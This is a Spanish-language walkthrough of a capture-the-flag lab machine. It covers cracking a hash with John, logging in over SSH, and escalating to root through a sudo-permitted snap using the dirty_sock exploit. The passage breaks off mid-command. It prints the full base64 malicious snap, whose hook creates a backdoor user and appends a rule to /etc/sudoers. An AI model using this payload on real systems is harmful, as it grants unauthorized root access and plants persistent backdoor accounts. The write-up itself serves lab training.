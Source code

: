 Encontramos el usuario 'brucetherealadmin' y su contraseña encryptada.

### John {-}

1. copiamos el hash en un fichero llamado `hash`
1. john --wordlist=/usr/share/wordlists/rockyout.txt hash

Ya tenemos contraseña para el usuario *brucetherealadmin*

### SSH {-}

```bash
ssh brucetherealadmin@10.10.10.233
```

ya tenemos la flag user.txt
## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
sudo -l
```

Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente 
[Linux Privilege Escalation via snapd (dirty_sock exploit)](https://initblog.com/2019/dirty-sock/). Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

```bash
echo "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" | xargs | tr -d ' '
```

copiamos el output y recreamos el paquete snap malicioso

```bash
cd /tmp
pytho -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD
//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29
jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1
EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q
gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N
1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB
leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA
gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA
BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F
qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4
wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj
NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt
```